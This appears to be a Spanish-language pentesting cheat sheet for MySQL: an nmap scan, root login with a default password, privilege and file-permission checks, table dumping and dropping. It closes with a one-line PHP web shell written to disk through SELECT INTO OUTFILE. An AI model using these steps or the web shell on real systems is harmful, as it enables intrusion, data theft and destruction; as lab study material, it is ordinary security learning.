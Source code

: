# Relacionarse

### Scan

    sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*

### Conectar

    mysql -u root -p'root' -h 192.168.50.16 -P 3306 --ssl=FALSE

### Version

    select version();
### ver privilegios:
    SHOW GRANTS;

### Leer variables de entorno:
    SHOW VARIABLES LIKE '<variable>';

### Ver si tenemos permisos para relacionarnos con archivos
    SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

### Ver dbs

    show databases;

### Ver tablas

    show tables;

### ver estructura de una tabla:
    DESCRIBE <tabla>;
    
### Dumpear datos de una tabla

    select * from <tabla>

### Buscar un dato en base a un patrón (coincidencia de letras en un nombre, etc):
    SELECT * FROM <tabla> WHERE <campo> LIKE <condición >

### Eliminar una tabla de un servidor:
    DROP TABLE <tabla>;

---
# Creacion

### crear una DB:
    CREATE DATABASE "nombre";

### insertar un registro en una tabla:
    INSERT INTO table_name VALUES (column1_value, column2_value, column3_value, ...);



si somos DBA y sabemos cómo acceder a los archivos desde un servicio web, podemos crear una shell:
SELECT '<?php system($_GET[1]); ?>' INTO OUTFILE 'path_to_file';



el resto en:
https://github.com/LaPorota/LaPorota_suite/blob/main/sqli
